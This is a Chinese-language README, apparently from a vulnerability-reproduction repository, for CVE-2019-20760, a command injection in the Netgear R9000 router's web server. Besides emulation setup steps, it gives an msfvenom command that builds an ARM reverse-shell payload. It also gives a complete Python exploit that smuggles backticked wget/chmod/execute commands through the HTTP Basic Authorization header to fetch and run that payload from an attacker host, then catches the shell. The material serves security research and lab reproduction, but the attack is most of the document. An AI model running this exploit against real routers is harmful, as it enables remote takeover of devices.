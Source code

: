 # Netgear R9000 命令注入漏洞（CVE-2019-20760）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- uhttpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:armhf

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/armhf && docker build -t firmianay/qemu-system:armhf . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/R9000-V1.0.4.26.img"
```

使用 Metasploit 生成反向 shell，并复制到 `system-emu/tools` 目录下：

```sh
$ msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-armv5l CVE-2019-20760/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/arm-gdbserver-7.11.1 CVE-2019-20760/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-system.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/cgi-bin/
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread
import base64

context(arch='mips', endian='little', os='linux')

cmd  = 'admin:'
cmd += '`'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'
cmd += '`'

assert(len(cmd) < 255)

cmd_b64 = base64.b64encode(cmd.encode()).decode()

headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1",
    "Authorization": "Basic " + cmd_b64
}

def attack():
    try:
        requests.get("http://192.168.2.2/cgi-bin/", headers=headers, timeout=1)
    except: pass

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://nvd.nist.gov/vuln/detail/CVE-2019-20760
- https://xz.aliyun.com/t/9125
